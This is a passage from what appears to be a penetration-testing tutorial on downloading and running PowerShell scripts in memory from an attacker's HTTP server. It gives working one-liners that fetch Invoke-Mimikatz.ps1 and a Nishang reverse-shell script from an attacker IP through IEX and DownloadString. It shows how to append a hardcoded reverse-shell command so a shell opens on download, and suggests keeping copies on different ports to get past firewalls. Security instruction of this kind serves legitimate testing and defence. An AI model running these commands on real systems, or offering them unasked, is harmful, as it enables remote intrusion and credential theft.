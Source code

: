 ```
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-Mimikatz.ps1')
```

> In my experience, IEX is only useful for downloading and executing PS1 scripts and BATCH (.BAT) files into memory. This will NOT download and execute an EXE file into memory.

When a PowerShell script is downloaded and executed directly into memory, it will load the script into the current session so that the scripts functions can be executed. However, this can pose an issue due to execution policy. To bypass that, we can hardcode a function / command at the bottom of the PS1 script and when the script executes as it is downloaded into memory, it will also execute the hardcoded command at the bottom.

For example, a common PowerShell script I use is called **Invoke-PowerShellTcp.ps1** from the **[Nishang](https://github.com/samratashok/nishang)** Collection of Scripts.

To utilize the power of IEX, from our attacker machine we can copy the script into our directory with the HTTP server running and then append the following command at the bottom:

> Edit IP and port as needed.

```
Invoke-PowerShellTcp -Reverse -IPAddress 172.16.1.30 -Port 443
```

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-126.png)

> I like to keep multiple copies of this script on hand with different common ports (21, 80, 443, 445, etc.) in case I get stuffed by the firewall. What I like to do is add the port number to the end of the script name so I can distinguish between them.

Now that we have our hardcoded command at the bottom of the script, we need to start a netcat listener on the same port we used in the hardcoded command. Then, we can download and execute the script directly into memory with the following command:

```
IEX(New-Object System.Net.WebClient).DownloadString('http://172.16.1.30/Invoke-PowerShellTcp.ps1')
```

From our Python log, we can see that the user successfully downloaded the script; and on our victim, we see the prompt hangs immediately after executing.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-127.png)

Checking back on our listener, we got a shell!

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-128.png)

## **Downloading Files from Attacker’s HTTP Server: cmd.exe**

Piggy-backing off of the PowerShell examples, there is a technique we can use that will allow us to execute PowerShell commands from a cmd.exe prompt.

To execute PowerShell commands from a cmd.exe prompt, start the command with ‘**powershell.exe -c**‘ followed by the PowerShell command you want to execute, wrapped in double quotes.
